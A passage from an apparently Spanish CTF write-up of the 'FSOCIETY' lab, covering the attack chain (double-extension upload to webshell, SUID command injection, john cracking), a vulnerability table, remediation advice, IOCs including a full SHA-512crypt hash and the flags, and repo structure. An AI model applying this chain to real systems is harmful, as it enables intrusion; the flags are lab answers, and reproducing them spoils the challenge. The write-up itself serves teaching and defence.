

---

## 7. Vectores laterales y hallazgos no explotados

### 7.1 Sudo — señuelo

```
root    ALL=(ALL:ALL) ALL
%admin  ALL=(ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
```

El grupo `sudo` existe pero está vacío (`sudo:x:27:`); el grupo `admin` no existe. La entrada `%admin` de sudoers es inerte y ningún usuario interactivo puede usar `sudo`. No es el vector.

### 7.2 Cron — vector latente

`/etc/crontab` contiene:

```
* * * * * root /usr/local/bin/backup.sh
```

Y `backup.sh` ejecuta un fichero **escribible por cualquiera**:

```bash
#!/bin/bash
LOG_FILE="/tmp/backup.log"
if [ -f "$LOG_FILE" ]; then
    bash "$LOG_FILE"
fi
```

`/tmp` es `1777`, así que cualquier usuario local podría crear `/tmp/backup.log` con comandos y obtener root en el siguiente minuto. Sin embargo, **el demonio `cron` no está corriendo en este contenedor** (`pgrep -x cron` no devuelve nada; `service cron status` → `unrecognized service`). Por eso no se usó en la cadena: es una vulnerabilidad latente, no el camino real.

### 7.3 pkexec

`pkexec` es SUID y su versión es `0.105-20ubuntu0.18.04.6`. Es una versión parchada frente a PwnKit (CVE-2021-4034), y no se utilizó. Se documenta solo como parte del inventario SUID.



---

## 8. Cadena de ataque completa


```
        POST /upload.php  (cmd.php.jpg)
        |
        v
   Apache + PHP 7.2  -- FilesMatch ".+\.php" sin anclar -->  RCE www-data
        |
        |  lectura de /home/tyrell/.tmp (0644)
        v
   wordlist de 240 líneas  -- incluye la flag user como candidata
        |
        |  find / -perm -4000  ->  /usr/local/bin/filereader
        v
   filereader (SUID root)  -- setuid(0) + system("cat %s") -->  root
        |
        |  cat /root/flag.txt  ->  SHA-512crypt de phillip_price
        v
   john + wordlist  ->  FSOCIETY{pwn_k1t_3_c0rp_0wn3d} (flag user)
        |
        |  validación local: el contenido literal de /root/flag.txt
        v
   phillip_price:$6$...  (flag root aceptada por startlab.sh)
```

---

## 9. Vulnerabilidades encontradas

| # | Severidad | Vulnerabilidad | Ubicación |
|---|---|---|---|
| 1 | **Crítica** | Ejecución de PHP en ficheros subidos con extensiones permitidas: `FilesMatch ".+\.php"` sin anclar | `/etc/apache2/apache2.conf` + `/upload.php` |
| 2 | **Crítica** | SUID root con inyección de comandos y lectura arbitraria de ficheros | `/usr/local/bin/filereader` |
| 3 | **Alta** | Wordlist world-readable con la flag user y candidatos para el hash de root | `/home/tyrell/.tmp` (0644) |
| 4 | **Alta** | La flag root es un hash SHA-512crypt crackeable con una wordlist del propio sistema | `/root/flag.txt` |
| 5 | **Media** | Directorio de subidas `0777` y listado de directorios habilitado | `/var/www/html/uploads/` |
| 6 | **Media** | Tarea cron ejecuta `/tmp/backup.log` como root (latente; cron no activo) | `/etc/crontab` + `/usr/local/bin/backup.sh` |
| 7 | **Media** | Portal de subida sin autenticación, sin validación MIME/contenido y sin límite de tamaño | `/upload.php` |
| 8 | **Baja** | Divulgación de versiones y banner SSH; autenticación por contraseña habilitada en SSH | Apache/OpenSSH |

---

## 10. Recomendaciones

1. **Anclar la expresión regular** de Apache a `\.php$` y, mejor aún, **deshabilitar PHP en el directorio de subidas**:
   ```apache
   <Directory /var/www/html/uploads>
       php_admin_flag engine off
   </Directory>
   ```
2. **Validar el contenido real** con `finfo_file()`, re-codificar imágenes, generar nombres aleatorios y guardar los ficheros fuera del `DocumentRoot`.
3. **Eliminar el SUID** de binarios propios. Si `filereader` necesita privilegios, debe usar `execve()` con argumentos separados, validar la ruta contra una lista blanca y **soltar privilegios** antes de ejecutar nada del usuario.
4. **No usar un hash de contraseña como flag**. Si se necesita una flag root, debe ser un valor aleatorio en un fichero `0600`, no un hash crackeable.
5. **Retirar la wordlist de `/home/tyrell/.tmp`** o darle permisos `0600`. Ningún fichero con candidatos a credenciales debe ser world-readable.
6. **Corregir el cron**: el script debe ser `root:root`, no debe ejecutar ficheros de `/tmp` y, si se usa `/tmp`, debe montarse con `PrivateTmp` o `noexec`.
7. **Revisar `sudo`**: eliminar grupos vacíos innecesarios, aplicar mínimo privilegio y auditar `sudoers` con `visudo -c`.
8. **Endurecer SSH**: `PasswordAuthentication no`, solo claves, `AllowUsers` acotado y Fail2Ban.
9. **Deshabilitar el listado de directorios** y aplicar `Options -Indexes`.
10. **Monitorizar**: ejecución de binarios SUID, escrituras en `/tmp`, subidas a `/var/www/html/uploads` y lectura de `/root/flag.txt`.

---

## 11. Herramientas y scripts utilizados

| Herramienta / script | Función |
|---|---|
| `nmap` | Descubrimiento de puertos y versiones |
| `gobuster`, `curl` | Enumeración web y prueba del upload |
| `exploits/upload_shell.sh` | Sube `cmd.php.jpg` y verifica la RCE |
| `exploits/test_upload_bypass.sh` | Evidencia del rechazo `.php` y la aceptación `.php.jpg` |
| `exploits/webcmd.sh` | Ejecuta comandos a través del webshell |
| `exploits/enumerate_loot.sh` | Recolecta usuarios, homes, SUID, sudoers, cron, shadow y SSH |
| `exploits/crack_flag.sh` | Extrae el hash de root y lo crackea con `john` |
| `john` | Crackeo SHA-512crypt con la wordlist de `tyrell` |
| `file`, `strings` | Análisis del binario SUID |
| `Pillow` + Chromium headless | Renderizado de las capturas del writeup |

---

## 12. Indicadores de compromiso (IOC)

| Tipo | Valor |
|---|---|
| IP atacante | `172.17.0.1` |
| Webshell subido | `/var/www/html/uploads/cmd.php.jpg` |
| Prueba de bypass | `/var/www/html/uploads/bypass.php.jpg` |
| Parámetro de ejecución | `?c=<comando>` |
| Binario SUID ejecutado | `/usr/local/bin/filereader` |
| Fichero leído | `/root/flag.txt` |
| Hash expuesto | `phillip_price:$6$hg7hrQCqa53OdOo$...` |
| Flag user | `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` |
| Flag root validada | `phillip_price:$6$hg7hrQCqa53OdOo$1YkvYxeBnOTCltn7lRMKqOyhUWIWTA/6yI7JjsCd9os68hvEhJQrwyDUlAr9if0j2hIj8BDIXfmp0JEUZ4i2r0` |
| Fichero de wordlist | `/home/tyrell/.tmp` |

---

## 13. Estructura del repositorio

```
F SOCIETY/
├── README.md                       Este documento
├── .gitignore                      Excluye la imagen y la evidencia sensible
├── docs/img/                       13 capturas (12 generadas + 1 validación real)
├── exploits/
│   ├── upload_shell.sh             Subida de cmd.php.jpg + RCE
│   ├── test_upload_bypass.sh       Evidencia del bypass .php / .php.jpg
│   ├── webcmd.sh                   Ejecución remota vía webshell
│   ├── enumerate_loot.sh           Recolección de evidencia post-explotación
│   ├── crack_flag.sh               Extracción del hash + john
│   └── README.md                   Orden de ejecución y requisitos
├── recon/
│   ├── nmap_full.txt               Escaneo completo
│   ├── nmap_services.txt           Versiones y scripts
│   ├── gobuster_common.txt         Enumeración web
│   ├── web_root.html               Portada E Corp
│   ├── web_upload.html             Formulario de subida
│   ├── upload_bypass.txt           Prueba .php rechazado / .php.jpg aceptado
│   ├── upload_shell_test.txt       Prueba de RCE
│   ├── uploads_listing.txt         Listado del directorio de subidas
│   └── http_headers.txt            Cabeceras HTTP
├── loot/
│   ├── 01_id_wwwdata.txt           id/hostname/uname/OS
│   ├── 02_passwd.txt               Usuarios del sistema
│   ├── 03_homes.txt                Homes + pista del README
│   ├── 04_tyrell_tmp.txt           Wordlist extraída
│   ├── 05_suid.txt                 Inventario SUID
│   ├── 06_filereader_meta.txt      file + strings
│   ├── 07_apache_config.txt        FilesMatch sin anclar
│   ├── 08_upload_source.txt        Código de upload.php
│   ├── 09_cron.txt                 Crontab + backup.sh
│   ├── 10_sudoers.txt              Sudoers y grupos
│   ├── 11_filereader_root.txt      Prueba de root
│   ├── 12_root_listing.txt         Listado de /root
│   ├── 13_root_id.txt              id como root
│   ├── 14_root_flag_hash.txt       Hash de /root/flag.txt
│   ├── 15_hash_para_john.txt       Hash listo para john
│   ├── 16_john.txt                 Salida del crackeo
│   ├── 17_flag.txt                 john --show
│   ├── 18_ssh_config.txt           PasswordAuthentication / PermitRootLogin
│   ├── flag_user.txt               Flag user
│   ├── flag_root.txt               Flag root (hash)
│   ├── flag.txt                    Copia de la flag root validada
│   └── validation_candidates.txt   PASS/FAIL de cada candidato
├── wordlists/
│   ├── tyrell_tmp.txt              Copia de /home/tyrell/.tmp
│   └── README.md                   Explicación de la wordlist
├── notes/bitacora.md               Bitácora del análisis
├── shots/
│   ├── make_images.py              Genera las capturas terminal
│   └── README.md                   Cómo regenerarlas
├── startlab.sh                     Script del laboratorio
└── fsociety.tar                    Imagen Docker (no se publica)
```

---

## 14. Trazabilidad: de dónde sale cada afirmación

| # | Afirmación | Sección | Origen | Artefacto |
|---|---|---|---|---|
| 1 | Solo hay 22/tcp y 80/tcp abiertos | 2.1 | Objetivo | `recon/nmap_full.txt` |
| 2 | Ubuntu 18.04.6, Apache 2.4.29, PHP 7.2.24 | Cabecera | Objetivo | `recon/nmap_services.txt`, `loot/01_id_wwwdata.txt`, `loot/versions.txt` |
| 3 | El portal solo acepta JPG/PNG/GIF/PDF/TXT | 2.2, 3.1 | Objetivo | `recon/web_upload.html` |
| 4 | `upload.php` valida solo la última extensión | 3.1 | Objetivo | `loot/08_upload_source.txt` |
| 5 | Un `.php` es rechazado y un `.php.jpg` aceptado | 3.1 | Objetivo | `recon/upload_bypass.txt` |
| 6 | Apache ejecuta `.php.jpg` como PHP | 3.2 | Objetivo | `loot/07_apache_config.txt`, `recon/upload_bypass.txt` |
| 7 | La RCE corre como `www-data` | 3.3 | Objetivo | `loot/01_id_wwwdata.txt` |
| 8 | Usuarios elliot, darlene, angela, tyrell | 4.1 | Objetivo | `loot/02_passwd.txt` |
| 9 | La pista apunta a ficheros ocultos en los homes | 4.2 | Objetivo | `loot/03_homes.txt` |
| 10 | `/home/tyrell/.tmp` es 0644 y contiene la flag user | 4.2 | Objetivo | `loot/04_tyrell_tmp.txt` |
| 11 | `filereader` es SUID root y no está stripped | 4.3 | Objetivo | `loot/05_suid.txt`, `loot/06_filereader_meta.txt` |
| 12 | `filereader` ejecuta `cat %s` vía `system()` tras `setuid(0)` | 4.3, 5.1 | Objetivo + análisis | `loot/06_filereader_meta.txt`, `loot/13_root_id.txt` |
| 13 | La inyección devuelve `uid=0(root)` | 5.1 | Objetivo | `loot/13_root_id.txt` |
| 14 | `/root/flag.txt` es un hash SHA-512crypt de 121 B | 5.2, 6.2 | Objetivo | `loot/12_root_listing.txt`, `loot/14_root_flag_hash.txt` |
| 15 | `john` crackea el hash a la flag user | 6.2 | Análisis | `loot/16_john.txt`, `loot/17_flag.txt` |
| 16 | `startlab.sh` compara contra `/root/flag.txt` | 6.3 | Objetivo | `startlab.sh` (líneas 110 y 126) |
| 17 | La flag `{...}` falla y el hash pasa | 6.3 | Objetivo | `docs/img/13-validacion-flag.png`, `loot/validation_candidates.txt` |
| 18 | El grupo `sudo` está vacío y `admin` no existe | 7.1 | Objetivo | `loot/10_sudoers.txt` |
| 19 | Cron ejecuta `/tmp/backup.log` como root, pero cron no está activo | 7.2 | Objetivo | `loot/09_cron.txt` |
| 20 | `pkexec` es 0.105-20ubuntu0.18.04.6 | 7.3 | Objetivo | `loot/packages.txt` |
| 21 | SSH permite autenticación por contraseña y deshabilita login de root | 9 | Objetivo | `loot/18_ssh_config.txt` |

---

## 15. Nota de rigor y reproducibilidad

- **Evidencia primaria por red:** la explotación y la recolección de evidencia se hicieron contra `172.17.0.2` (webshell y SUID). No se asumió ningún acceso previo al filesystem del objetivo.
- **Inspección local auxiliar:** para verificar que no había otra flag en la imagen y confirmar el origen del hash se inspeccionó el paquete `fsociety.tar` con herramientas de Docker/tar. No se modificó el contenedor ni `/root/flag.txt`.
- **No se modificó `/root/flag.txt`**: el hash es el original de la imagen. Se leyó con el SUID `filereader`, que forma parte de la cadena.
- **La flag user se obtuvo antes de la escalada**, leyendo `/home/tyrell/.tmp` como `www-data`.
- **La flag root es el hash**, no el plaintext. La captura `13-validacion-flag.png` demuestra que `startlab.sh` acepta el hash y rechaza `FSOCIETY{...}`; fue aportada por el usuario y no se manipuló.
- **El hash es crackeable** con la wordlist del propio sistema; el plaintext coincide con la flag user. Es una decisión de diseño del laboratorio, no un error de este writeup.
- **El cron es un vector latente**: se documenta porque es una debilidad real, pero no se usó para resolver el reto.
- **Todos los artefactos son reproducibles**: los scripts de `exploits/` regeneran las salidas de `recon/` y `loot/`; `shots/make_images.py` regenera las capturas del writeup.

> **Conclusión:** FSOCIETY se compromete por una cadena web → SUID: la validación de subida se salta con una doble extensión, Apache ejecuta el `.jpg` por una regex sin anclar, `www-data` encuentra la wordlist de `tyrell`, y el SUID `filereader` permite leer `/root/flag.txt` y ejecutar comandos como root. La flag root validada es el hash SHA-512crypt; la flag user es `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}`.
